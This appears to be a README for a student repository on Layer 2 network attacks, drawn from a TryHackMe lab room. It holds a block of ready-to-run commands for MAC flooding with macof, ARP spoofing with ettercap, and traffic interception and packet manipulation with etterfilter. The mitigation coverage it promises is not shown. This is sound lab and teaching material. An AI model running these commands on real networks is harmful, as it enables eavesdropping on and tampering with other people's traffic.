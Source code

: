 # Layer2-Network-Attacks   

## Overview  
This repository explores Layer 2 network attacks, including **MAC flooding**, **ARP spoofing**, and **Man-in-the-Middle (MITM) attacks**. It covers methodologies, tools used, and mitigation techniques based on practical exercises from the **TryHackMe Layer2** room.  

## Attacks Covered  
- **Network Discovery** – Identifying active hosts and their details.   
- **Passive Network Sniffing** – Capturing and analyzing network traffic.  
- **MAC Flooding** – Overloading a switch to force traffic broadcast.  
- **ARP Spoofing** – Redirecting traffic by poisoning ARP tables.  
- **MITM Sniffing** – Intercepting and analyzing communications.  
- **MITM Manipulation** – Modifying network packets in transit.  

## Tools Used  
- `Nmap` – Network scanning and host discovery  
- `Tcpdump` – Packet capture and traffic analysis  
- `Macof` – MAC flooding attack tool  
- `Ettercap` – ARP spoofing and MITM attack tool  
- `Etterfilter` – Packet filtering and manipulation tool  

## Execution Steps  

```bash
# 1. Network Discovery  
sudo ip address show dev eth1  # Check interface details  
nmap -sn <target IP range>  # Discover active hosts  

# 2. Passive Network Sniffing  
tcpdump -A -i eth1 -w /tmp/tcpdump.pcap  
wireshark /tmp/tcpdump.pcap  # Open and analyze packet capture  

# 3. MAC Flooding Attack  
macof -i eth1  # Flood switch with fake MAC addresses  

# 4. ARP Spoofing with Ettercap  
ettercap -T -i eth1 -M arp  # Execute ARP spoofing attack  

# 5. MITM Sniffing  
nmap -n <IP range>  # Discover hosts  
ettercap -T -i eth1 -M arp  # Intercept and capture network traffic  

# 6. MITM Manipulation with Etterfilter  
etterfilter <filter_file> -o <compiled_filter_file>  
ettercap -T -q -F <compiled_filter_file> -i eth1  
